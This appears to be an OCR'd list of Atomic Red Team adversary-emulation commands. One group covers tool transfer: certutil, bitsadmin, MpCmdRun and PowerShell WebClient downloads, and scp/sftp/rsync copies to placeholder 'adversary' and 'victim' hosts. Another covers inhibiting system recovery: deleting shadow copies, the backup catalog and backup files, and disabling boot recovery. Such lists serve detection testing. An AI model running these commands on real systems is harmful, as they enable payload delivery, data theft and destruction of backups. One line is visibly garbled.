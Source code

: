 * sftp #{username}@#{remote_host}:#{remote_file} /tmp/victim-files/
* scp /tmp/adversary-scp #{username}@#{remote_host}:#{remote_path}
* rsync -r #{username}@#{remote_host}:#{remote_path} /tmp/victim-files
* cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt -path #{local_path}
* timeout --preserve-status #{timeout} whois -h localhost -p #{remote_port} "#{query}" > #{output_file}
* C:\Windows\System32\bitsadmin.exe /transfer #{bits_job_name} /Priority HIGH https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt #{local_path}
* rsync -r #{local_path} #{username}@#{remote_host}:/tmp/victim-files
* cmd /c certutil -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt #{local_path}
* $datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination Atomic-license.txt }
* sftp adversary@#{remote_host}:#{remote_file} #{local_path}
* sftp #{username}@#{remote_host}:/tmp/victim-files/ <<< $'put #{local_file}'
* rsync -r #{local_path} #{username}@victim-host:#{remote_path}
* (New-Object System.Net.WebClient).DownloadFile("#{remote_file}", "$env:TEMP\Atomic-license.txt")
* (New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt", "#{destination_path}")
* cmd /c certutil -urlcache -split -f #{remote_file} Atomic-license.txt
* sftp victim@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
* sftp #{username}@adversary-host:#{remote_file} #{local_path}
* sftp #{username}@victim-host:#{remote_path} <<< $'put #{local_file}'
* finger base64_filedata@localhost
* $imewdbled = $env:SystemRoot + "\System32\IME\SHARED\IMEWDBLD.exe"
& $imewdbled https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/T1105.yaml
* scp adversary@#{remote_host}:#{remote_file} #{local_path}
* sftp #{username}@#{remote_host}:#{remote_path} <<< $'put /tmp/adversary-sftp'
* scp #{local_file} victim@#{remote_host}:#{remote_path}
* scp #{local_file} #{username}@#{remote_host}:/tmp/victim-files/
* C:\Windows\System32\bitsadmin.exe /transfer qcxjb7 /Priority HIGH #{remote_file} #{local_path}
* scp #{username}@#{remote_host}:#{remote_file} /tmp/victim-files/
* rsync -r /tmp/adversary-rsync/ #{username}@#{remote_host}:#{remote_path}
* $wc=New-Object System.Net.WebClient;
$output="PowerShellCore.msi";
$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", $output);
Start-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 ENABLE_PSREMOTING=1 REGISTER_MANIFEST=1" -Wait;
$env:Path += ";C:\Program Files\Powercmd.exe /c\6";
Start-Process pwsh -ArgumentList "-c #{location} -server $RANDOMURL$ - group 1010" -WindowStyle hidden;
* [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True };
$web = (New-Object System.Net.WebClient);
$result = $web.DownloadFile("https://download.sysinternals.com/files/PSTools.zip", "PSTools.zip");
New-Item -ItemType "directory" C:\Windows\System32\PSTools -Force;
Add-Type -Assembly 'System.IO.Compression.FileSystem'; [System.IO.Compression.ZipFile]::ExtractToDirectory("PSTools.zip", "C:\Windows\System32\PSTools");
##T1490: Inhibit System Recovery
* schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /disable
* vssadmin.exe delete shadows /all /quiet
* Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
* del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
* wmic.exe shadowcopy delete
* wbadmin delete catalog -quiet
* bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures